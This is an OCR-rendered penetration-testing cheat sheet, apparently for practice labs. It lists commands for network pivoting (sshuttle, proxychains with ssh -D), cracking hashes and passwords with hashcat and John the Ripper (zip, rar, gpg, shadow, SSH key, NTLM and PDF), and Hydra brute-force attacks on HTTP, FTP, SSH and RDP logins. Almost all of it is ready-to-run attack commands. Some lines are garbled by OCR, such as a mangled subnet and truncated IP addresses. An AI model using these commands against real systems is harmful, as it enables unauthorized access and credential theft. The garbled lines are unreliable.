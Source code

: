 **Dynamic port forwarding
1: sshuttle**
sshuttle -r victim@10.10.10.10 10 .1 0. 1 0. 1 / 24
**2: Proxychains**
gedit **/etc/proxychains4.conf**
socks4 127.0.0.1 9050
comment out **proxy_dns
ssh -D 127.0.0.1:9050 victim@10.10.10.**
Only use **TCP**

**- Pn** added to **nmap command
proxychains** nmap 10.10.10.10 80





# Hash/Password Crack
**1: crackstation
https://crackstation.net/**

**2: hashid: Identify hash type**
hashid "[hash value]"

**3: hashcat**
md5: 0
sha1: 100
**apr1** : 1600
**ntlm** : 1000, 5500 (v1), 5600 (v2)
**bcryp** t: 3200

**4: John
zip password**
zip2john file1.zip>hash.txt
john --wordlist=rockyou.txt hash.txt
**rar password**
rar2john file1.rar > hash.txt
john --wordlist=rockyou.txt hash.txt
**gpg password**
gpg2john file1.priv > hash.txt
john --wordlist=rockyou.txt hash.txt
**shadow**
unshadow passwd shadow
john --wordlist=rockyou.txt --format=sha512crypt unshadowed.txt
**SSH key password**
ssh2john id_rsa > hash.txt
john --wordlist=rockyou.txt hash.txt
**NTLM Cracking**
john --wordlist=rockyou.txt hash.txt --format=NT
**PDF password**
pdf2john file.pdf > hash.txt
john hash.txt --wordlist=dict/rockyou.txt

**5: Hydra**
http basic auth: **hydra -l admin -P dict/rockyou.txt [http://10.10.10.10/[-s](http://10.10.10.10/[-s)
443] http[s]-get /private/**
http post form: **hydra -l admin -P dict/rockyou.txt 10.10.10.10 [-s 443]
http[s]-post-form
"/login.php:username=admin&password=^PASS^&login=Login:F=Incorrect
username or password" -V**
ftp: **hydra -t 1 -l admin -P dict/rockyou.txt -vV 10.10.10.10 ftp**
ssh: **hydra -l user -P dict/rockyou.txt ssh://10.10.10.10:22 -t 4**
rdp: **hydra -t 1 -V -f -l administrator -P dict/rockyou.txt rdp://10.10.10.**
